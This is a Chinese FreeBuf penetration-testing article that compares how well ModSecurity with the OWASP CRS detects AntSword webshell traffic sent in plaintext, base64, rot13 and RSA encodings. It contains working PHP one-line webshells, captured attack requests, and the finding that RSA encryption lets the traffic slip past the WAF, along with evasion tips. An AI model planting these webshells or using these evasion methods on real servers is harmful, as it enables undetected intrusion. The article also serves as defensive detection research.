


# WAF对WebShell流量检测的性能分析 - FreeBuf网络安全行业门户

**最近在一次授权渗透测试中遇到了一个棘手的场景，万能的队友已经找到了后台上传点，并传了小马然后开心地用antsword进行连接，但是由于明文传输很快被waf感知，并引起了管理员的注意，很快我们的马被清了，真是偷鸡不成蚀把米。**  

痛定思痛，我们判断对方并不能尽快修复漏洞，于是临阵抱佛脚，希望于通过加密算法提高攻击的质量。首先要做三件事

第一，迅速在本地复现对方环境，第二，配置多种加密组合成攻击载荷，第三，用开源安全模块modsecurity测试攻击载荷加密后的效果。  

## 本地环境组建

从保留的截图来看，对方的php版本是5.6.40，所以我要搭一个apache+php5.6.40的测试环境。打开virtualbox，链接复制出来一份centos镜像系统，按照以下流程配置一遍。  

1\. 安装apache  

```plain
yum install -y httpd
httpd -v
Server version: Apache/2.4.6 (CentOS)
Server built:   Aug  8 2019 11:41:18
```

2\. 安装php5.6  

```plain
yum -y install epel-release
rpm -Uvh https://mirror.webtatic.com/yum/el7/webtatic-release.rpm
yum -y install php56w php56w-mysql php56w-gd libjpeg* php56w-ldap php56w-odbc php56w-pear php56w-xml php56w-xmlrpc php56w-mbstring php56w-bcmath 
yum -y install httpd php-gd56w php-intl56w php-mysql56w mod_ssl openssl mcrypt php5-mcrypt56w
yum -y install php56w-mcrypt php56w-soap php56w-intl  php56w-pdo
systemctl restart httpd.service
php -v

PHP 5.6.40 (cli) (built: Jan 12 2019 13:11:15) 
Copyright (c) 1997-2016 The PHP Group
```

做一个index.php用以显示phpinfo()，本机访问时为了测试方便关闭firewalld  

```plain
systemctl stop firewalld         //当然也可以通过firewall-cmd去开放端口
```

3. 为了后面查看攻击流量，再装一个wireshark，包含wireshark-gnome等等，直接用\*替代了。

```plain
yum install wireshark*
```

4. 配置apache-modsecurity手边没有waf设备，没法对流量进行测试，于是用mode-security，以及OWASP（开放Web应用程序安全性项目）核心规则集-CRS进行测试，纵然效果不如实际场景来的直观，但足以说明问题。

```plain
yum -y install mod_security

cd /etc/httpd
git clone https://github.com/SpiderLabs/owasp-modsecurity- crs.git
mv owasp-modsecurity-crs modsecurity.d
cd modsecurity-crs
cp crs-setup.conf.example crs-setup.conf

vi /etc/httpd/conf/httpd.conf
Include conf.modules.d/*.conf
Include modsecurity.d/owasp-modsecurity-crs/crs-setup.conf
Include modsecurity.d/owasp-modsecurity-crs/rules/*.conf
systemctl restart httpd
```

modsecurity的默认配置是检测到攻击会阻断，我们将它改为只记录。  

```plain
vim /etc/httpd/conf.d/mod_security.conf
SecRuleEngine On (拦截)
SecRuleEngine  DetectionOnly 记录

tail -f /var/log/httpd/model/modsec_audit.log //查看拦截日志
```

测试一些攻击向量会在log里看到记录，证明配置完成。环境搭建完成。

## 攻击流量配置、分析、检测

### 明文php-webshell配置

首先写个一句话看看明文webshell流量传输。  

```plain
vim test1.php
<?php 
@eval($_POST['aaaa']); 
?>
```

配置蚁剑进行连接  



### 明文流量分析

用wireshark查看测试连接的流量  

```plain
POST /test1.php HTTP/1.1
Host: 192.168.1.13
Accept-Encoding: gzip, deflate
User-Agent: antSword/v2.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 993
Connection: close

aaaa=@ini_set("display_errors", "0");
@set_time_limit(0);
function asenc($out){
return $out;
};
function asoutput(){
$output=ob_get_contents();
ob_end_clean();
echo "620e2fc";
echo @asenc($output);
echo "71a0ccfbc1";
}
ob_start();
try{
$D=dirname($_SERVER["SCRIPT_FILENAME"] 
//dirname()函数获取给定文件路径中的目录部分，而$_SERVER['SCRIPT_FILENAME']全局预定义变量用于获取当前执行脚本的完整路径
);
if($D=="")
$D=dirname($_SERVER["PATH_TRANSLATED"]); 
//如果没有获取到就用PATH_TRANSLATED,获取当前脚本所在文件系统（非文档根目录）的基本路径。这是在服务器进行虚拟到真实路径的映像后的结果。Apache 2 用户可以使用httpd.conf 中的 AcceptPathInfo On 来定义 PATH_INFO。
$R="{$D}";
if(substr($D,0,1)!="/")
{
foreach(range("C","Z")as $L)
if(is_dir("{$L}:"))$R.="{$L}:";
}
else{$R.="/";}
$R.="	";
//以上是判断windows或者linux盘符，进而把获取的目录信息存入变量
$u=(function_exists("posix_getegid"))?@posix_getpwuid(@posix_geteuid()):"";
//posix_getegid()返回当前进程的有效用户组ID，posix_geteuid()返回当前进程的有效用户ID
$s=($u)?$u["name"]:@get_current_user();
//get_current_user()方法进行获得PHP当前脚本所有者名称
$R.=php_uname();
//php_uname返回运行 PHP 的系统的有关信息
$R.="{$s}";
echo $R;;}
catch(Exception $e)
{echo "ERROR://".$e->getMessage();}
;
asoutput();
die();//输出
HTTP/1.1 200 OK
Date: Wed, 29 Jan 2020 12:53:30 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.6.40
X-Powered-By: PHP/5.6.40
Content-Length: 136
Connection: close
Content-Type: text/html; charset=UTF-8
620e2fc/var/www/html./.Linux localhost.localdomain 3.10.0-1062.9.1.el7.x86_64 #1 SMP Fri Dec 6 15:49:49 UTC 2019 x86_64.apache71a0ccfbc1
```

为了更加清楚antsword发出的流量包，我认真看了一下发的包，并查了一些相关函数，做注释的同时感叹了PHP函数的牛逼，并勾起了我的好奇心，对这几个函数做了本地测试。  

```plain
<?php
echo posix_getegid();
echo posix_getlogin();
echo get_current_user();
echo php_uname();
```

```plain
0
t1ger
root
Linux localhost.localdomain 3.10.0-1062.9.1.el7.x86_64 #1 SMP Fri Dec 6 15:49:49 UTC 2019 x86_64
```

果然牛逼！和返回包现象保持了一致。同时也说明了如果明文直接进行探测，这种流量在waf面前无异于自投罗网！  

### 明文流量检测

waf测试结果如下：  

```plain
Message: Warning. Pattern match "^[\\d.:]+$" at REQUEST_HEADERS:Host. [file "/etc/httpd/modsecurity.d/owasp-modsecurity-crs/rules/REQUEST-920-PROTOCOL-ENFORCEMENT.conf"] [line "708"] [id "920350"] [msg "Host header is a numeric IP address"] [data "192.168.1.13"] [severity "WARNING"] [ver "OWASP_CRS/3.2.0"] [tag "application-multi"] [tag "language-multi"] [tag "platform-multi"] [tag "attack-protocol"] [tag "paranoia-level/1"] [tag "OWASP_CRS"] [tag "OWASP_CRS/PROTOCOL_VIOLATION/IP_HOST"] [tag "WASCTC/WASC-21"] [tag "OWASP_TOP_10/A7"] [tag "PCI/6.5.10"]
Message: Warning.
    .....
    .....
Apache-Handler: php5-script
Stopwatch: 1580358081210887 7750 (- - -)
Stopwatch2: 1580358081210887 7750; combined=5379, p1=753, p2=4202, p3=42, p4=155, p5=227, sr=194, sw=0, l=0, gc=0
Response-Body-Transformed: Dechunked
Producer: ModSecurity for Apache/2.9.2 (http://www.modsecurity.org/); OWASP_CRS/3.2.0.
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.6.40
Engine-Mode: "DETECTION_ONLY"
```

统计数据如下，匹配规则数按照grep line|wc -l计算  

| Apache-Error | Message | 匹配规则数 | level |
| --- | --- | --- | --- |
| 11  | 11  | 22  | 3   |

接下来我们先测对称密码。  

## Base64&&rot13 webshell配置

Antsword自带几个可供测试的shell，给我们提供了非常大的方便。

我顺便贴一下代码。先来看看base64的代码  

```plain
<?php
$ant=base64_decode("YXNzZXJ0");
$ant($_POST['ant']);
?>
```

## Base64&&rot13 流量分析

```plain
POST /php_assert_script.php HTTP/1.1
Host: 192.168.1.13
Accept-Encoding: gzip, deflate
User-Agent: antSword/v2.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 942
Connection: close

ant=%40eval(%40base64_decode(%24_POST%5Bq9c4fa426fb243%5D))%3B&q9c4fa426fb243=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwgIjAiKTtAc2V0X3RpbWVfbGltaXQoMCk7ZnVuY3Rpb24gYXNlbmMoJG91dCl7cmV0dXJuICRvdXQ7fTtmdW5jdGlvbiBhc291dHB1dCgpeyRvdXRwdXQ9b2JfZ2V0X2NvbnRlbnRzKCk7b2JfZW5kX2NsZWFuKCk7ZWNobyAiMzRhZTE3IjtlY2hvIEBhc2VuYygkb3V0cHV0KTtlY2hvICI1YmJhN2YiO31vYl9zdGFydCgpO3RyeXskRD1kaXJuYW1lKCRfU0VSVkVSWyJTQ1JJUFRfRklMRU5BTUUiXSk7aWYoJEQ9PSIiKSREPWRpcm5hbWUoJF9TRVJWRVJbIlBBVEhfVFJBTlNMQVRFRCJdKTskUj0ieyREfQkiO2lmKHN1YnN0cigkRCwwLDEpIT0iLyIpe2ZvcmVhY2gocmFuZ2UoIkMiLCJaIilhcyAkTClpZihpc19kaXIoInskTH06IikpJFIuPSJ7JEx9OiI7fWVsc2V7JFIuPSIvIjt9JFIuPSIJIjskdT0oZnVuY3Rpb25fZXhpc3RzKCJwb3NpeF9nZXRlZ2lkIikpP0Bwb3NpeF9nZXRwd3VpZChAcG9zaXhfZ2V0ZXVpZCgpKToiIjskcz0oJHUpPyR1WyJuYW1lIl06QGdldF9jdXJyZW50X3VzZXIoKTskUi49cGhwX3VuYW1lKCk7JFIuPSIJeyRzfSI7ZWNobyAkUjs7fWNhdGNoKEV4Y2VwdGlvbiAkZSl7ZWNobyAiRVJST1I6Ly8iLiRlLT5nZXRNZXNzYWdlKCk7fTthc291dHB1dCgpO2RpZSgpOw%3D%3D
```

base64加密之后的流量除了eval之外至少不会包含那么多的高危函数，加密之后我们再来测试。  

## Base64&&rot13 webshell流量检测

waf测试结果如下：  

```plain
Message: Warning. Pattern match "^[\\d.:]+$" at REQUEST_HEADERS:Host. [file 
Message: Warning. Matched phrase "base64_decode" at ARGS:ant. [file "/etc/httpd/modsecurity.d/owasp-modsecurity-crs/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf"] [line "301"] [id "933150"] [msg "PHP Injection Attack: High-Risk PHP Function Name Found"] [data "Matched Data: base64_decode found within ARGS:ant: @eval(@base64_decode($_post[y07ae431d0730c]));"] [severity "CRITICAL"] [ver "OWASP_CRS/3.2.0"] [tag "application-multi"] [tag "language-php"] [tag "platform-multi"] [tag "attack-injection-php"] [tag "paranoia-level/1"] [tag "OWASP_CRS"] [tag "OWASP_CRS/WEB_ATTACK/PHP_INJECTION"] [tag "OWASP_TOP_10/A1"]
...
...
```

统计数据如下

| Apache-Error | Message | 匹配规则数 | level |
| --- | --- | --- | --- |
| 7   | 7   | 14  | 3   |

通过Antsword界面配置rot13加密及解密，抓包看了下流量，仅仅是将base64的加密函数变成了str\_rot13

```plain
ant=%40eval(%40base64_decode -> ant=%40eval(%40str_rot13(
```

拦截数据和base差不多，waf统计数据如下

| Apache-Error | Message | 匹配规则数 | level |
| --- | --- | --- | --- |
| 10  | 7   | 14  | 3   |

由此可见，对称加密算法下eval、base64,rot13这些函数也是可以触发较高告警等级的。但是相比于明文传输，触发的告警会少一半，于是笔者进一步尝试一下antsword提供的非对称加密算法。

## RSA加密流量配置

版本>=2.1.0开始，Antsword作者新增了RSA模式。蚁剑默认下仅支持PHP。另外需要Server开启php\_openssl拓展。

```plain
修改php.ini，去掉extension=php_openssl.dll前的注释，重启Apache
```

使用方法：

```plain
Antsword->系统设置->编码管理->新建编码器->PHP RSA->命名为rsa_php->点击RSA配置->生成
```

1、将下方的php代码copy到虚拟机里，命名为rsa.php

2、配置antsword连接类型选择rsa\_php

3、测试连接

## RSA加密流量分析

贴上wireshark抓的流量

```plain
POST /rsa.php HTTP/1.1
Host: 192.168.1.13
Accept-Encoding: gzip, deflate
User-Agent: antSword/v2.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 1712
Connection: close
​
ant=W%2B9beN7Ltke390bzZGS5JbOBCnO8SRXW6Z8w0WaMF6CdAymaCu6NeWE9FX0kyCFs3jaLkDWkEvcTsSC2gEu85l5ugsVJUK6bTWFlVNeRBoezjTjUJZdjGvnjrxjd5Pn4iZaRjoaxAZPeZP2ozupbevWFUId4ZzkKZ7bIVPrZKk4%3D%7CYjt1kz5Gkj2N6Ajkqp3VXcg%2FEA7emPXV6oyTwZAZS9Ux1%2Fpby5PIuU9LsMZmGlMqGXvRFO23is9MUJpF66yboIAIYqpGRJCDgSP4S%2BfG6DD0lRYGEOIEsfpaLSVMhxZtR6OnFXp%2FfbXqmgGUk0a8HCUfQ83XmXS%2BRsl0Yx2PFc4%3D%7CAWtIrpychlQENib6basrK89LJcjnKk%2Bf5mVM72MOnPHxaviQFXws2TKNdGPI4SI9%2Fkwl%2FUGqB22s6NOwCza1f%2BkzGK7FqEciITMZMNFbokFsmjG8IiWkRO%2B%2BbWWnsMesfavJub9aEln41x8U97WjgKGKMMdqXZHrIRS4KU8pQhU%3D%7CXLL0DnlWOLx3hNXd2VGzmbdcgmtQoiyiiPNQCiBkAbUK1mLM14l6f22Pkl2tSSw%2F9dYIkdZ91wUok9GHDBMmKkL6D%2BJGQxrJDyQXEfytOzfzZmKqp%2BJ%2BryVm2zwLJMXTdpZ%2BUsBWgVzlD%2Bxga6%2F7rCqkG%2FtaWM6e%2BGegcS4lWTE%3D%7CJGJR50q4jSkL028qffvT%2Be%2BnJcMQth6jz86sntyuI3GZQUtjS5%2FoCByIqsGi8zPwCKS0J%2FAEiEGhAwN7%2FBQXYjyVWAs5VpDhPrVUs7EbqFgllVmrNt8T5Rt7O%2FCHVSiR2AQjyG%2BxB1LjO5ElX%2FH8Pfh25dDpVaFt3MEr1lxT69I%3D%7CSIirF52ZEhs%2FMBfco2kWouurB%2F%2FhCvLG29%2BK70a6t8Io%2FE%2F7VL5IO38s2j%2Bjq%2BSw6dUDL9cEUbEx2G2U4r0fHiDSYPbbn9WS6FbQSCPHxG6lxLHCXmmkKxj%2B2P8khyMM%2FHdVCWai%2B5L5hXYr%2BUWFkCkbv%2BUyYUSsfL29sGxWeVA%3D%7Ci1qZBSL6Dfu31cisSj3J%2BY7epLuQl62DdEWMCiZRQOz5AHFsPFsWtO59uedRC0CfMOhcbIDGGq2GNThL8VPz%2FUfLJTd3kuoFo7p225iPcYOKJS75V36ccHw3bMI3LOWcEhUF3LPX2YcaLSvwDDyHfrnWL2Qj6VmQKew8edoAIdU%3D%7CkJih3pPT70J6BiPll9o4PtH%2Byl%2BmB8%2BUPDAS%2FfAu4uzi2yDMCIdzdkaFLlnsUKewHXLf1mWWVpGkfqLCttgZed9wUtl6N22C3nQGZqZ%2FqnNiKeBYK0%2FJBmimOAf7nSMB1WF%2Bab5RmRq6cSSwrWc4ya93kVJzmIg1BdyaiycdN5I%3D%7CHV2y7vs6wQUIQ8DnvveCeD8xtjRecf%2F%2B7rAl7Y4Wa8S4Y0onKYHOz2Nz0hgBJtFN%2BLRIj9%2B%2FYyOq%2Fslq0XW%2BolQCUl5hf8%2F3Y9OmlxKvSCGf3A0IIAquqSaJXpU4w8rqVyP9Od2bgDXDzsOx8YgVdigeyZxLS0TNNODTGIATb7Y%3DHTTP/1.1 200 OK
​
Date: Thu, 30 Jan 2020 05:47:09 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.6.40
X-Powered-By: PHP/5.6.40
Content-Length: 133
Connection: close
Content-Type: text/html; charset=UTF-8
​
8ee773/var/www/html./.Linux localhost.localdomain 3.10.0-1062.9.1.el7.x86_64 #1 SMP Fri Dec 6 15:49:49 UTC 2019 x86_64.apache47970246
```

经历非对称加密算法之后,整个流量传输的数据除了length之外,肉眼已经分别不出来, 这个效果笔者比较满意.

## RSA加密流量检测

```plain
Message: Warning. Pattern match "^[\\d.:]+$" at REQUEST_HEADERS:Host. [file "/etc/httpd/modsecurity.d/owasp-modsecurity-crs/rules/REQUEST-920-PROTOCOL-ENFORCEMENT.conf"] [line "708"] [id "920350"] [msg "Host header is a numeric IP address"] [data "192.168.1.13"] [severity "WARNING"] [ver "OWASP_CRS/3.2.0"] [tag "application-multi"] [tag "language-multi"] [tag "platform-multi"] [tag "attack-protocol"] [tag "paranoia-level/1"] [tag "OWASP_CRS"] [tag "OWASP_CRS/PROTOCOL_VIOLATION/IP_HOST"] [tag "WASCTC/WASC-21"] [tag "OWASP_TOP_10/A7"] [tag "PCI/6.5.10"]
Apache-Handler: php5-script
Stopwatch: 1580363229118571 7666 (- - -)
Stopwatch2: 1580363229118571 7666; combined=6153, p1=574, p2=5170, p3=39, p4=156, p5=213, sr=205, sw=1, l=0, gc=0
Response-Body-Transformed: Dechunked
Producer: ModSecurity for Apache/2.9.2 (http://www.modsecurity.org/); OWASP_CRS/3.2.0.
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.6.40
Engine-Mode: "DETECTION_ONLY"
```

```plain
| Apache-Error | Message | 匹配规则数 | level |
| ------------ | ------- | ---------- | ----- |
| 1            | 1       | 1          | --    |
```

waf也只能检测到Host header is a numeric IP address,这基本是说waf对于RSA加密的webshell流量基本没什么防护能力，往后的安全设备检测只能依赖于杀毒软件。

这样的加密程度对笔者本次实验来说已经够用了。但是同样还存在着很多很多的问题，比如绕杀软，混淆代码等等，每一个方向都需要专注、细心、长久的投入。

PS:隐藏攻击流量也可以通过改UA,设置multi发包,花样过狗过盾甚至过人等等。过狗千万条,安全第一条,连马不谨慎,队友两行泪。

> 参考链接: [http://www.test666.me/archives/289/](http://www.test666.me/archives/289/) [https://www.cnblogs.com/jianmingyuan/p/5900064.html](https://www.cnblogs.com/jianmingyuan/p/5900064.html)

**\*本文作者：LittleT1ger，转载请注明来自FreeBuf.COM**
